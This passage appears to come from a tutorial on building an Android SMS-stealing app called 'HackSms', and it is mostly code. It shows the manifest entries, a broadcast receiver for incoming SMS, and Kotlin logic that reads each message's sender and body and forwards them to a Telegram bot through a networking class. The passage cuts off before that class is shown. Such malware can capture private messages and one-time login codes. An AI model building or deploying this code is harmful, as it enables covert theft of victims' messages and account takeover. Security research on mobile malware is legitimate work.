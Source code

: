 ```xml
        <activity
            android:name=".HackMainActivity"
            android:exported="true"
            android:theme="@style/Theme.HackSms">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

As you can see, the manifest file declares the necessary permissions and registers the broadcast receiver to listen for incoming SMS messages.    

The receiver listens for the `SMS_RECEIVED` intent, which is triggered when the device receives a new `SMS` message:    

```xml
<receiver android:name=".HackSmsBroadcast" android:exported="true" android:permission="android.permission.BROADCAST_SMS">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

Then, we need `SMS` receiver logic. Our receiver checks whether the app has the `RECEIVE_SMS` permission before processing the incoming message:    

```kotlin
@SuppressLint("NewApi")
fun isPermissionGranted(context: Context): Boolean {
    val isGranted = context.checkSelfPermission(Manifest.permission.RECEIVE_SMS)
    return isGranted == PackageManager.PERMISSION_GRANTED
}

override fun onReceive(context: Context, intent: Intent) {
    if (intent.action == "android.provider.Telephony.SMS_RECEIVED") {
        if (isPermissionGranted(context)) {
            // ... new incoming sms processing logic
            // ... 
        }
    }
}
```

When an `SMS` is received, the `SmsMessage` class is used to extract the sender and message body:    

```kotlin
val bundle = intent.extras
val messages: Array<SmsMessage?>?
var sender: String?
if (bundle != null) {
    val pdus = bundle["pdus"] as Array<*>?
    messages = arrayOfNulls(pdus!!.size)
    for (i in messages.indices) {
        messages[i] = SmsMessage.createFromPdu(pdus[i] as ByteArray)
        sender = messages[i]!!.originatingAddress
        val msgBody = messages[i]!!.messageBody
        // Send the SMS details to the Telegram bot
        HackNetwork(context).sendTextMessage(
            "SMS from: $sender\n" +
            "SMS text: $msgBody"
        )
```
